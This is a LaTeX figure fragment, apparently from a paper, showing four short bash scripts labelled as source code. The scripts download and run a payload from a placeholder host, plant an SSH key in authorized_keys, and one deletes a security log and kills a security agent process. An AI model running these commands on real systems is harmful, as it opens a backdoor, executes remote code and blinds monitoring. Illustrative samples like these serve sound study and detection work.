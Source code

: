 \vspace{1em}

\begin{minipage}[t][3.0cm][t]{0.45\textwidth}
\vspace{-6mm}
\begin{verbatim}
#!/bin/bash
uname -a
mkdir -p ~/.ssh
echo "ssh-rsa TESTKEY" >> ~/.ssh/authorized_keys
wget http://example.com/payload.sh
chmod +x payload.sh
sh payload.sh
\end{verbatim}
\end{minipage}
\hfill
\begin{minipage}[t][3.0cm][t]{0.45\textwidth}
\vspace{-6mm}
\begin{verbatim}
#!/bin/bash
rm -f /tmp/security.log
pkill security_agent




\end{verbatim}
\end{minipage}

\vspace{1em}

\begin{minipage}[t][3.0cm][t]{0.45\textwidth}
\vspace{-6mm}
\begin{verbatim}
#!/bin/bash
wget http://example.com/payload.sh
chmod +x payload.sh
mkdir -p ~/.ssh
echo "ssh-rsa TESTKEY" >> ~/.ssh/authorized_keys
\end{verbatim}
\end{minipage}
\hfill
\begin{minipage}[t][3.0cm][t]{0.45\textwidth}
\vspace{-6mm}
\begin{verbatim}
#!/bin/bash
wget http://example.com/payload.sh
chmod +x payload.sh
sh payload.sh

\end{verbatim}
\end{minipage}

\vspace{1em}

